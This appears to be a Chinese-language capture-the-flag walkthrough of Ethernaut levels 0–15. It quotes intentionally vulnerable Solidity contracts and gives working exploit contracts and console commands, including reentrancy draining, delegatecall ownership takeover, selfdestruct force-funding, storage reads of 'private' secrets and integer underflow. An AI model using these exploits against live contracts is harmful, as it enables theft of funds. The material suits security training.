





## 0. Hello Ethernaut

- 登录 MetaMask，将 MetaMask 切换到 Goerli 测试网络
    - 若没有则需要在 `设置->高级` 中开启「Show test networks」
- 在浏览器的控制台可以收到一些消息，其中一条为玩家地址
    - 可以使用 `player` 命令随时查看玩家地址，MetaMask 也可以直接复制
- 查看当前余额：`getBalance(player)`
    - 如果显示 `pending`，可改用 `await getBalance(player)` 来获得清晰的结果

        ```js
        >> await getBalance(player)
        "0"
        ```

- 在控制台输入 `ethernaut` 查看游戏的主要合约
    - 合约的 ABI（Application Binary Interfaces）提供了所有 Ethernaut.sol 的公开方法，如所有者，可通过 `ethernaut.owner()` 查看
    - 并不需要直接与 Ethernaut.sol 合约交互，而是通过关卡实例
- 获取测试用以太币用于支付汽油费：[1](https://goerlifaucet.com/) / [2](https://goerli-faucet.pk910.de/) / [3](https://www.allthatnode.com/faucet/ethereum.dsrv) / [4](https://goerlifaucet.org/)
- 点击「Get new instance」并在 MetaMask 授权交易
- 查看合约信息并根据提示交互

    ```js
    >> await contract.info()
    "You will find what you need in info1()."
    >> await contract.info1()
    "Try info2(), but with \"hello\" as a parameter."
    >> await contract.info2("hello")
    "The property infoNum holds the number of the next info method to call."
    >> await contract.infoNum()
    {
      "negative": 0,
      "words": [
        42,
        null
      ],
      "length": 1,
      "red": null
    }
    >> await contract.info42()
    "theMethodName is the name of the next method."
    >> await contract.theMethodName()
    "The method name is method7123949."
    >> await contract.method7123949()
    "If you know the password, submit it to authenticate()."
    >> await contract.password()
    "ethernaut0"
    >> await contract.authenticate("ethernaut0")
    // MetaMask 授权交易，等待确认
    >> await contract.getCleared()
    true
    ```

- 查看合约所有 ABI：`contract.abi`
- 完成后点击「Submit instance」验证

## 1. Fallback

阅读合约代码并达成以下目标：

1. 获得合约的所有权
2. 将其余额减为 0

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// Arithmetic operations revert on underflow and overflow
// no need to use SafeMath after v0.8.0
contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() { // 构造函数
    owner = msg.sender; // 所有者为当前调用
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;  // only used inside a function modifier and it tells Solidity to execute the rest of the code.
    }

  function contribute() public payable {
    // msg.value - 随消息发送的 wei 的数量
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    // 每次转账不能超过 0.001 以太币，想要超过原 owner 的 1000 以太币
    // 需要重复调用多次 contribute 函数，且测试账户也没有那么多以太币，显然不太现实
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance); // 合约所有者才能将账户余额清零
  }

  // 一个合约最多能有一个 receive 函数，不能有参数和返回值
  // 必须声明 external 和 payable
  // 当调用合约的 data 域为空时，将会执行；如果没有 receive 函数，将尝试 fallback 函数
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

- 注意到若当前交易转账金额大于 0 且调用者贡献不为 0 时，可以通过 `receive` 函数取得合约所有权
- 首先通过 `contribute` 使贡献值大于 0

    ```js
    >> await contract.contribute({value:1})
    ```

- 向合约转账触发 `receive` 函数，执行完成后确认一下所有者

    ```js
    >> await contract.send(1)
    // 或
    >> await contract.sendTransaction({value:1})  // 发起一个交易

    >> await contract.owner()
    ```

- 清空合约账户的余额

    ```js
    >> await contract.withdraw()
    ```

### 参考资料

- [Receive Ether Function](https://docs.soliditylang.org/en/latest/contracts.html?highlight=receive#receive-ether-function)
- [sendTransaction](https://web3js.readthedocs.io/en/v1.7.0/web3-eth.html?highlight=sendTransaction#sendtransaction)

## 2. Fallout

声明合约的所有权

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;

  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }
  // 在 v0.4.22 前，构造函数是和合约同名的函数（v0.5.0 弃用）

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

被注释为「构造函数」的函数名为 `Fal1out` 而不是 `Fallout` 意味着该函数只是普通函数可以被调用

- 真正的构造函数只在合约创建时调用一次

```js
>> await contract.Fal1out()
```

### 参考资料

[Constructors](https://docs.soliditylang.org/en/latest/contracts.html?highlight=constructor#constructors)

## 3. Coin Flip

需要连续猜对 10 次掷硬币的结果

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    // block.number - 当前区块号
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert(); // 无条件抛出异常
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;  // 向下取整
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

- 实际上 `side` 的值并非随机，区块号、区块哈希等都是公开可获取的
- 可以由另一个合约计算掷硬币的结果，并调用 `flip` 函数

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// 把需要调用的合约放在同一个文件
contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    // 当前区块号不能等于上一区块号，意味着不能使用循环重复调用 flip
    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}

contract hack {
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    CoinFlip coin;

    constructor(address instance) {
        coin = CoinFlip(instance);
    }

    function exploit() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        coin.flip(side);
    }
}
```

使用 Remix 部署合约


执行 10 次 `exploit` 函数


可以使用 [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number) 来获得安全的随机数

### 参考资料

[Deploy & Run — Remix - Ethereum IDE 1 documentation](https://remix-ide.readthedocs.io/en/latest/run.html)

## 4. Telephone

声明合约的所有权

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    // tx.origin - 交易的发起者
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

- 用户通过合约 A 调用合约 B
    - 对于合约 A：`tx.origin` 和 `msg.sender` 都是用户
    - 对于合约 B：`tx.origin` 是用户，`msg.sender` 是合约 A
- 当交易发起者的地址与当前调用者的地址不相同时，可以更新合约所有者，显然需要通过另一个合约来调用 `changeOwner`

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

contract Hack {

  Telephone tele;

  constructor(address instance) {
    tele = Telephone(instance);
  }

  function exploit() public {
    tele.changeOwner(msg.sender);
  }
}
```

## 5. Token

增加手中 token 的数量，越多越好（初始 20 个）

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  // 无符号整数类型
  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    // 会发生整数溢出，未使用 SafeMath 检查
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

通过下溢出来获得 token

```js
// 转给除自己外的任意地址
// 转给自己的话，就先下溢出再上溢出了...
>> await contract.transfer(<address>, 21)
```

## 6. Delegation

声明对合约实例的所有权

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  // 没有 payable，不能使用转账来触发 fallback
  // 同时，通过转账来触发 fallback 函数不能加任何 data
  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

- 代理调用只使用给定地址的代码，其他属性都取自当前合约
- 使用合约 `Delegate` 的 `pwn` 函数来修改合约 `Delegation` 的所有者
- 除了向合约转账会触发 `fallback` 函数外，若被调用的函数不存在同样会触发
- 调用 `Delegation` 不存在的函数 `pwn` 来触发 `fallback` 函数，从而执行真正的 `pwn` 函数
  
    ```js
    // keccak256 即 sha3
    >> await contract.sendTransaction({data: web3.utils.sha3("pwn()")})
    >> await contract.owner()
    ```

- 代理调用功能强大且危险，慎用 👀

### 参考资料

- [SHA-3 - 维基百科，自由的百科全书](https://zh.wikipedia.org/wiki/SHA-3)
- [sha3](https://web3js.readthedocs.io/en/v1.7.0/web3-utils.html?highlight=sha3#sha3)

## 7. Force

使合约的余额大于 0

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

- 当合约自毁时，合约余额将转给指定目标
    - 即使合约代码不包含 `selfdestruct` 的调用，仍然可以通过 `delegatecall` 或 `callcode` 来执行自毁操作

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Hack {

  function pay() public payable {}

  function exploit(address instance) public {
    // 声明 payable 的函数和地址都可以接受转账
    selfdestruct(payable(instance));
  }
}
```

在 Remix 向合约 `Hack` 转账



- 如果合约中包含声明了 `payable` 的 `receive` 或 `fallback` 函数，也可以在填写完 `VALUE` 后直接点击「Transact」；或通过声明了 `payable` 的构造函数，在创建合约时转账
- 通过自毁的转账方式无法阻止，因此任何合约逻辑都不应基于 `address(this).balance == 0`

### 参考资料

- [Deactivate and Self-destruct](https://docs.soliditylang.org/en/v0.8.12/introduction-to-smart-contracts.html?highlight=destruct#deactivate-and-self-destruct)
- [Payable | Solidity by Example](https://solidity-by-example.org/payable/)
- [Low level interactions](https://remix-ide.readthedocs.io/en/latest/udapp.html?highlight=contract#low-level-interactions)

## 8. Vault

解锁保险柜

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

- 猜密码是不可能猜的~ XD
- 区块链上所有信息都是公开的，包括声明为 `private` 的变量
- 合约中的变量按照定义的顺序存储在 slot 中

```js
// 首先确定变量定义的顺序，第一个变量存储在 slot 0，第二个变量存储在 slot 1，以此类推
>> await web3.eth.getStorageAt(instance, 1)
"0x412076657279207374726f6e67207365637265742070617373776f7264203a29"
>> web3.utils.toAscii("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")
"A very strong secret password :)"
>> await contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")
```

- 将变量声明为 `private` 只能防止其它合约访问
- 为了保证数据的机密性，应在上链前加密，密钥绝对不能公开。[zk-SNARKs](https://blog.ethereum.org/2016/12/05/zksnarks-in-a-nutshell/) 提供了一种在不暴露秘密信息的情况下，证明某人是否持有秘密信息的方法

### 参考资料

[Crypto Market Pool - Access private data on the Ethereum blockchain](https://cryptomarketpool.com/access-private-data-on-the-eth-blockchain/)

## 9. King

阻止关卡实例在提交后重新声明国王身份

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    // 即使转账金额小于 prize，合约的所有者也可以声明国王身份
    require(msg.value >= prize || msg.sender == owner);
    // 当前的转账金额会转给上一任国王
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;  // 更新 prize
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

- 当 `transfer` 执行失败时，会抛出异常，交易回滚，关卡实例就无法再声明国王身份了
- 查看当前最高金额

    ```js
    >> web3.utils.toWei(web3.utils.fromWei(await contract.prize()))
    "1000000000000000"
    ```

- 新建合约，用于声明国王身份，并阻止关卡实例再成为国王

    ```js
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;

    contract Hack {

      constructor() payable {}

      function exploit(address instance) public {
        payable(instance).call{value: 0.001 * (1 ether)}("");  // 汽油量一定要给足！
        // 不能使用 transfer/send，默认 2300 汽油费不足以支撑后续操作
      }

      receive() external payable {
        revert(); // 使 king.transfer 无法成功执行
      }

    }
    ```

## 10. Re-entrancy

窃取合约所有的💰

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  // 利用先转再减
  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

- 在接收合约的 `fallback` 函数中再调用 `withdraw` 函数
- 先看看合约的初始资金

    ```js
    >> await web3.eth.getBalance(instance)
    "1000000000000000"
    ```

- 计划分 9 次取完（也可以多捐赠，减少取出次数）

    ```js
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.12;

    import 'https://github.com/OpenZeppelin/openzeppelin-contracts/blob/release-v3.0.0/contracts/math/SafeMath.sol';

    contract Reentrance {
      
      using SafeMath for uint256;
      mapping(address => uint) public balances;

      function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
      }

      function balanceOf(address _who) public view returns (uint balance) {
        return balances[_who];
      }

      function withdraw(uint _amount) public {
        if(balances[msg.sender] >= _amount) {
          (bool result,) = msg.sender.call{value:_amount}("");
          if(result) {
            _amount;  // does nothing
          }
          balances[msg.sender] -= _amount;
        }
      }

      receive() external payable {}
    }

    contract Hack {

      Reentrance reentrance;

      function exploit(address payable instance) public {
        reentrance = Reentrance(instance);
        reentrance.withdraw(125000000000000);
      }

      receive() external payable {
        if (msg.sender.balance >= msg.value && gasleft() > 6000) {
          reentrance.withdraw(125000000000000);
        }
      }

    }
    ```

- 合约 Hack 部署完成后，进行「捐赠」

    ```js
    >> await contract.donate("<hack-address>", {value: 125000000000000});
    >> web3.utils.fromWei(await contract.balanceOf("<hack-address>"))
    "0.000125"
    ```

- 随后开始「盗钱」，务必给足汽油 :)
    > 本次汽油量参考：200,000 | 156,169 (78.08%)

- 不推荐使用 `transfer` 和 `send` 来代替 `call`，可能影响 Istanbul 硬分叉之后的合约（部分指令消耗汽油量增加）
- 永远假设转账的接收方是另一个合约，而非普通的地址

## 11. Elevator

到达顶层！

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}

contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) { // 第一次返回 false
      floor = _floor;
      top = building.isLastFloor(floor);  // 第二次返回 true
    }
  }
}
```

- `Interface` 内部不能实现任何函数，但可以继承自其它接口，所有声明的函数必须是外部的，不能声明构造函数和状态变量
- 「电梯应该在建筑里」，实现这个 `Building` 合约就好啦 >_<

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Building {
  bool public flag = true;

  function isLastFloor(uint) external returns (bool) {
    flag = !flag;
    return flag;
  }

  function exploit(address instance) public {
    Elevator elevator = Elevator(instance);
    elevator.goTo(1);
  }
}

contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

- 接口函数可以通过声明 `view` 来防止状态被篡改，`pure` 同理
- 在不改变状态的情况下，可以根据不同的输入数据来返回不同的结果，如 `gasleft()`

### 参考资料

- [Interface | Solidity by Example](https://solidity-by-example.org/interface/)
- [View Functions](https://docs.soliditylang.org/en/develop/contracts.html#view-functions)

## 12. Privacy

解锁！([Vault](#8-vault) 升级版)

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {
  // slot 0
  bool public locked = true;

  // slot 1
  uint256 public ID = block.timestamp;  // uint256 is 32 bytes long

  // slot 2
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(now);

  // slot 3, 4, 5
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

- 每个 slot 大小为 32 字节，当邻近变量也能够放进单个 slot 时，将按从右到左的顺序依次放入
- 常量不存储

```js
>> await web3.eth.getStorageAt(instance, 0)
"0x0000000000000000000000000000000000000000000000000000000000000001"
>> await web3.eth.getStorageAt(instance, 1)
"0x000000000000000000000000000000000000000000000000000000006210d5b1"
>> await web3.eth.getStorageAt(instance, 2)
"0x00000000000000000000000000000000000000000000000000000000d5b1ff0a" // 0a for flattening, ff for denomination
>> await web3.eth.getStorageAt(instance, 3)
"0xc3003c2bcb65196b8352fb925d945f9229929bcc727f70ea451255859a6a4f56"
>> await web3.eth.getStorageAt(instance, 4)
"0x6d6f76ea288ee9c55ab1ad76264518237a23af3495ee5702f57a164f8aeb99b0"
>> await web3.eth.getStorageAt(instance, 5)
"0x06e3eb3b9e34467cbf1a226fc2bd13e5948a7a15ef2205caf186fa3df3076f53"  // data[2]
```

- 由于 `_key` 为 `bytes16` 类型，需要对 `data[2]` 进行类型转换

    ```js
    // 从 bytes32 到 bytes16，只需要移走右侧的 16 字节，即 32 位十六进制数
    >> await contract.unlock("0x06e3eb3b9e34467cbf1a226fc2bd13e5")
    ```

### 参考资料

[Accessing Private Data | Solidity by Example](https://solidity-by-example.org/hacks/accessing-private-data/)

## 13. Gatekeeper One

越过守门人并注册为参赛者

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      // uint64 is 8 bytes long
      // _gateKey % 2^32 == _gateKey % 2^16
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      // _gateKey % 2^32 != _gateKey
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      // _gateKey % 2^32 == tx.origin % 2^16
      require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

- 使用与 [Telephone](#4-telephone) 相同的方式通过 `gateOne`
- 至于 `gateTwo`，在 Remix 的 JavaScript VM 环境下通过 Debug 来获取具体所需汽油量
    - **注意**：不同版本的 EVM 或编译器都会导致不同的汽油消耗量
    - 首先选择一个较大的汽油量，如 `90000`
    - 执行完成后，进入 `DEBUGGER`，执行完操作码 `GAS`，此时剩余的汽油量为 `89577`<br>


    - 由此可计算出通过 `gateTwo` 实际需要的最少汽油量：$90000-89577+8191\times 3=24996$
        - `entrant = tx.origin` 包含 `SSTORE` 操作码，因为 `entrant` 未被写入过，至少需要消耗 20000 汽油
    - 在 Goerli 测试网络中运行时会抛出异常，再次调试，观察栈中出现 `0x1fff(8191)` 的下一个数字，为 `0x60a4(24740)`，得出最终需要的汽油量为：$24996-24740+8191\times 3=24829$<br>


- 对于 `gateThree`，用 $A_0A_1...A_7$ 来表示 `_gateKey` 的各个字节
    - `part one` 需满足 $A_4A_5A_6A_7 = A_6A_7$
    - `part two` 需满足 $A_4A_5A_6A_7 \neq A_0A_1...A_7$
    - `part three` 需满足 $A_4A_5A_6A_7 = B_6B_7$ （视作 `tx.origin` 后两个字节）
    - 也就是说，`_gateKey` 只需要后两个字节与 `tx.origin` 一致，倒数三四字节为 $0$，剩下四个字节不为 $0$ 就可以了 >v<

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}

contract Hack {
  function exploit(address instance) public {
    GatekeeperOne gk = GatekeeperOne(instance);
    bytes8 _gateKey = bytes8(uint64(uint160(tx.origin)) & 0xff0000ffff);
    gk.enter{gas: 24829}(_gateKey);
  }
}
```

### 参考资料

- [Solidity variables — storage, type conversions and accessing private variables](https://medium.com/coinmonks/solidity-variables-storage-type-conversions-and-accessing-private-variables-c59b4484c183)
- [solidity - Why does Remix's jsVM show incorrect gas? - Ethereum Stack Exchange](https://ethereum.stackexchange.com/questions/84670/why-does-remixs-jsvm-show-incorrect-gas)
- [Opcodes for the EVM | ethereum.org](https://ethereum.org/en/developers/docs/evm/opcodes/)

## 14. Gatekeeper Two

通过新的挑战！

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) } // 内联汇编
    // caller() - call sender (excluding delegatecall)
    // extcodesize(a) - size of the code at address a
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

- `gateTwo` 需要调用合约的代码长度为 0，与解题矛盾。[ETHEREUM: A SECURE DECENTRALISED GENERALISED TRANSACTION LEDGER](https://ethereum.github.io/yellowpaper/paper.pdf) 中提到，在代码初始化时，对应地址的 `EXTCODESIZE` 应返回 0，那么只需要在构造函数里调用 `enter` 就可以了
- 至于 `gateThree`，使用异或逆运算求解就好啦

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}

contract Hack {

  constructor(address instance) {
    GatekeeperTwo gk = GatekeeperTwo(instance);
    gk.enter(bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ (type(uint64).max)));
  }
}
```

### 参考资料

[Inline Assembly](https://docs.soliditylang.org/en/v0.6.0/assembly.html#inline-assembly)

## 15. Naught Coin

取出被锁住的硬币，清空自己的余额

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import '@openzeppelin/contracts/token/ERC20/ERC20.sol';

contract NaughtCoin is ERC20 { // 基于 ERC20

  // string public constant name = 'NaughtCoin';
  // string public constant symbol = '0x0';
  // uint public constant decimals = 18;
  uint public timeLock = block.timestamp + 10 * 365 days;
  uint256 public INITIAL_SUPPLY;
  address public player;

  constructor(address _player) 
  ERC20('NaughtCoin', '0x0') {
    player = _player;
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
    // _totalSupply = INITIAL_SUPPLY;
    // _balances[player] = INITIAL_SUPPLY;
    _mint(player, INITIAL_SUPPLY); // Creates INITIAL_SUPPLY tokens and assigns them to player
    emit Transfer(address(0), player, INITIAL_SUPPLY);
  }
  
  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    // super 继承直接父合约的 transfer 函数
    super.transfer(_to, _value);  // 将调用者 _value 数量的金额转移给 _to
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(block.timestamp > timeLock);
      _;
    } else {
     _;
    }
  }
} 
```

- `lockTokens` 限制了 `player`，而被覆写的 `transfer` 只能由持有货币的账户发起转账
- `NaughtCoin` 合约是 `ERC20` 的子合约，在合约 `ERC20` 中除了定义 `transfer` 还有 `transferFrom` 函数，由此可以绕过 `lockTokens` 的限制

    ```
    transferFrom(address sender, address recipient, uint256 amount) → bool
    ```

